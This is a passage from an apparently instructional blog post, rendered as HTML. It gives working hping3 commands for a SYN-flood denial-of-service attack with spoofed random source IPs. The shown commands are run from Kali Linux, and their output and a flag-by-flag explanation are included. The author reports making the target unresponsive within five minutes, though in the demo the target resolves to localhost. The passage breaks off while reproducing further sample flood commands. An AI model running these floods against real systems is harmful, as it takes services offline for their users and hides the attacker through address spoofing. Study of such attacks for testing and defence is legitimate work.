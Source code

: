 <h2 style="padding:0px;margin:25px 0px 10px;outline:none;list-style:none;border:0px none;box-sizing:border-box;font-weight:normal;line-height:1em;font-family:Lora, serif;font-size:30px;color:#FF6200;white-space:normal;background-color:#FFFFFF;">
	<span style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#993300;">DoS using hping3 with random source IP</span>
</h2>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	That’s enough background, I am moving to the attack. You only need to run a single line command as shown below:
</p>
<pre style="padding:1em;margin-top:0px;margin-bottom:1em;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:#333333;font-stretch:normal;line-height:19px;overflow-x:auto;overflow-y:hidden;color:#DFDFDF;clear:both;border-radius:2px;">root@kali:~# hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com

HPING www.hping3testsite.com (lo 127.0.0.1): S set, 40 headers + 120 data bytes
hping in flood mode, no replies will be shown

^C
--- www.hping3testsite.com hping statistic ---
1189112 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
root@kali:~#</pre>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	Let me explain the syntax’s used in this command:
</p>
<ol style="padding:0px;margin:0px 0px 20px 15px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">hping3&nbsp;</code>= Name of the application binary.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">-c 100000</code>&nbsp;= Number of packets to send.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">-d 120</code>&nbsp;= Size of each packet that was sent to target machine.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">-S</code>&nbsp;= I am sending SYN packets only.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">-w 64</code>&nbsp;= TCP window size.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">-p 21</code>&nbsp;= Destination port (21 being FTP port). You can use any port here.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">--flood</code>&nbsp;= Sending packets as fast as possible, without taking care to show incoming replies. Flood mode.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">--rand-source</code>&nbsp;= Using Random Source IP Addresses. You can also use -a or –spoof to hide hostnames. See MAN page below.
	</li>
	<li style="padding:0px;margin:0px 0px 5px;outline:none;list-style:decimal outside;border:0px none;box-sizing:border-box;">
		<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">www.hping3testsite.com</code>&nbsp;= Destination IP address or target machines IP address. You can also use a website name here. In my case resolves to 127.0.0.1 (as entered in&nbsp;<code style="padding:3px;margin:0px 0px 20px;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:url(&quot;font-stretch:normal;font-size:11px;line-height:19px;font-family:&quot;display:inline;overflow-x:visible;overflow-y:hidden;color:#FF0000;">/etc/hosts</code>&nbsp;file)
	</li>
</ol>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	So how do you know it’s working? In hping3 flood mode, we don’t check replies received (actually you can’t because in this command we’ve used –rand-souce flag which means the source IP address is not yours anymore.)
</p>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	Took me just 5 minutes to completely make this machines unresponsive (that’s the definition of DoS – Denial of Service).
</p>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	In short, if this machine was a Web server, it wouldn’t be able to respond to any new connections and even if it could, it would be really really slow.
</p>
<h3 style="padding:0px;margin:25px 0px 10px;outline:none;list-style:none;border:0px none;box-sizing:border-box;font-weight:normal;line-height:1em;font-family:Lora, serif;font-size:24px;color:#FF6200;white-space:normal;background-color:#FFFFFF;">
	<span style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#993300;">Sample command to DoS using hping3 and nping</span>
</h3>
<p style="padding:0px;margin-top:0px;margin-bottom:20px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#333333;font-family:&quot;font-size:13px;white-space:normal;background-color:#FFFFFF;">
	I found this article which I found interesting and useful. I’ve only modified them to work and demonstrate with Kali Linux (as their formatting and syntaxes were broken – I assume on purpose :) ). These are not written by me. Credit goes to&nbsp;<a href="http://insecurety.net/?p=18" target="_blank" style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#3B5998;text-decoration:none;transition:all 0.2s ease-in-out;">Insecurety Research</a>
</p>
<h4 style="padding:0px;margin:25px 0px 10px;outline:none;list-style:none;border:0px none;box-sizing:border-box;font-weight:normal;line-height:1em;font-family:Lora, serif;font-size:18px;color:#FF6200;white-space:normal;background-color:#FFFFFF;">
	<span style="padding:0px;margin:0px;outline:none;list-style:none;border:0px none;box-sizing:border-box;color:#993300;">Simple SYN flood – DoS using HPING3</span>
</h4>
<pre style="padding:1em;margin-top:0px;margin-bottom:1em;outline:none;list-style:none;border-width:1px;border-style:solid;border-color:#E1E1E1 #F0F0F0 #F0F0F0 #E1E1E1;border-image:initial;box-sizing:border-box;direction:ltr;background:#333333;font-stretch:normal;line-height:19px;overflow-x:auto;overflow-y:hidden;color:#DFDFDF;clear:both;border-radius:2px;">root@kali:~# hping3 -S --flood -V www.hping3testsite.com
using lo, addr: 127.0.0.1, MTU: 65536
HPING www.hping3testsite.com (lo 127.0.0.1): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- www.hping3testsite.com hping statistic ---
746021 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
root@kali:~# </pre>